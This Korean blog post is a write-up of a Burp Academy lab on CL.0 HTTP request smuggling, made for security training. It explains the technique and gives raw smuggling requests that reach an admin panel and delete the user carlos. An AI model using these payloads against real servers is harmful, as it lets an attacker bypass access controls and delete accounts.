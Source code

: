 ```yaml
---
layout: post
title: "Burp Academy-HTTP Request Smuggling 관련 취약점: CL.0 request smuggling"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, HTTP Request Smuggling]
toc: true
last_modified_at: 2024-03-11 21:00:00 +0900
---
```


# 개요
- HTTP Request Smuggling 취약점 문제이다. 여기서부터는 웹 브라우저로 공격가능한 요청 스머글링 패턴을 다룬다.
- 이는 2022년 8월에 발표된 James Kettle의 [Browser-Powered Desync Attacks: A New Frontier in HTTP Request Smuggling](https://portswigger.net/research/browser-powered-desync-attacks)에 기초한 내용이다. 
- HTTP Request Smuggling 취약점 문제 19번부터 22번까지 네 개 문제는 이와 관련된 내용이다.
- 문제 주소: https://portswigger.net/web-security/request-smuggling/browser/cl-0/lab-cl-0-request-smuggling
- 취약점 설명페이지(개요): https://portswigger.net/web-security/request-smuggling/browser
- 취약점 설명페이지(CL.0 상세): https://portswigger.net/web-security/request-smuggling/browser/cl-0
- 난이도: PRACTITIONER (보통)


# CL.0 request smuggling 개요 
- 브라우저로 실행가능한 요청 스머글링과 기존의 스머글링이 다른 점은 victim에게 수행시킴으로서 스스로의 커넥션을 오염시키는 수단으로 사용할 수 있다는 것이다. 
- 프론트엔드 서버는 CL헤더를 보지만, 백엔드 서버가 CL헤더를 무시하는 경우는 `CL.0`라고 하는 패턴으로 부른다. 

## Repeater에서 CL.0 테스트하는 법
CL.0를 테스트하려면 셋업 요청의 바디에 스머글 요청을 포함시킨다. 그리고 뒤따르는 일반적인 요청을 준비한다. 그리고 뒤따르는 요청이 직전에 스머글링한 요청에 의해서 영향받는지를 확인하면 된다. 

다음 예에서 뒤따르는 일반적인 요청의 응답이 404가 된다면 스머글링한 요청이 서버에서 처리되었을 가능성이 아주 높다는 것을 알 수 있따. 

![CL.0 취약한 예](/images/burp-academy-hrs-19-1.png)

1. (스머글링 요청을 바디에 포함하는) 셋업 요청과 일반적인 뒤따르는 요청을 각각 별도의 탭으로 준비한다. ※ 스머글링 요청과 뒤따르는 요청는 각각 다른 응답이 돌아와야 한다. 그래야 구분이 가능하다. 
2. 두 탭을 올바른 순서 (셋업먼저, 뒤따르는 요청뒤에)로 해서 하나의 그룹으로 묶는다. 
3. Menu에서 Send Mode를 Send group in sequence (single connection)로 선택한다.
4. `Connection` 헤더 값을 `keep-alive`로 변경한다. 
5. 요청을 보내서 응답을 확인한다. 뒤따르는 요청의 응답이 

## CL.0 거동을 끌어내기(Eliciting CL.0 behavior)
- 서버가 CL.0 취약점이 없는 것처럼 동작할 때가 있다. 
- 이럴 때 [헤더 헷갈리게 만들기 테크닉](https://portswigger.net/web-security/request-smuggling#te-te-behavior-obfuscating-the-te-header)을 사용하면 CL.0 거동을 끌어낼 수 있을 때가 있다. 


# 랩 개요
- 이 랩은 CL.0 요청 스머글링에 취약하다. 백엔드 서버는 CL헤더를 무시한다. 
- 랩을 풀려면 취약한 엔드포인트를 찾아서 백엔드 서버에게 admin패널에 접근하는 요청을 스머글링하여 carlos유저를 삭제하면 된다. 

```
This lab is vulnerable to CL.0 request smuggling attacks. The back-end server ignores the Content-Length header on requests to some endpoints.

To solve the lab, identify a vulnerable endpoint, smuggle a request to the back-end to access to the admin panel at /admin, then delete the user carlos.

This lab is based on real-world vulnerabilities discovered by PortSwigger Research. For more details, check out Browser-Powered Desync Attacks: A New Frontier in HTTP Request Smuggling.
```

# 풀이 
0. 유저를 삭제할 수 있는 admin 기능은 접근제어가 되어 있다. 

![admin 접근 결과](/images/burp-academy-hrs-19-0.png)

1. CL.0 타입의 스머글링이 가능한지 체크하기 위해 다음과 같은 페이로드를 준비한다. 

셋업요청 

```http
POST / HTTP/1.1
Host: 0a8a005d04457df68372230a000200ce.web-security-academy.net
Cookie: session=IamwLprknVmn3aaKFARAieb4tPBP7xSG
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Connection: keep-alive
Content-Length: 25

GET /404 HTTP/1.1
Foo: x
```

뒤따르는 요청

```http
GET / HTTP/1.1
Host: 0a8a005d04457df68372230a000200ce.web-security-academy.net
Cookie: session=IamwLprknVmn3aaKFARAieb4tPBP7xSG
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36


```

2. 두 요청을 그룹으로 묶은 후 싱글 커넥션으로 요청을 보내본다. 두번째 탭에서 200응답이 돌아왔다. 스머글링이 안되는 것 처럼 보인다. 

![스머글링 시도 결과1-1](/images/burp-academy-hrs-19-2.png)

![스머글링 시도 결과1-2](/images/burp-academy-hrs-19-3.png)

3. 확장 프로그램 Http Request Smuggler 도 돌려본다. 못 찾는다. 


4. 별 수 없다. 해답을 본다. 스머글링이 가능한 엔드포인트는 `/resources/` 하위에 있는 엔드포인트였다. 이 것을 찾는게 어려웠다. 

![](/images/burp-academy-hrs-19-5.png)

5. 두번째 탭 요청결과다. 404응답이 돌아온 것으로 보아 셋업 요청에 포함된 스머글링 요청이 결과에 영향을 준 것을 알 수 있다. 스머글링에 성공했다. 

![](/images/burp-academy-hrs-19-4.png)

6. 스머글링 요청의 엔드포인트를 `/admin`으로 바꾼다. 

![](/images/burp-academy-hrs-19-6.png)

7. 요청결과다. admin패널의 내용을 확인할 수 있다. carlos유저를 삭제하는 엔드포인트도 보인다. 

![](/images/burp-academy-hrs-19-7.png)

8. 스머글링 요청의 엔드포인트를 7번에서 확인한 엔드포인트 `/admin/delete?username=carlos`로 변경한다. 요청을 보내면 유저삭제가 처리되어 302응답이 반환된다. 

![](/images/burp-academy-hrs-19-8.png)

9. 문제 풀이에 성공했다. 

![](/images/burp-academy-hrs-19-9.png)




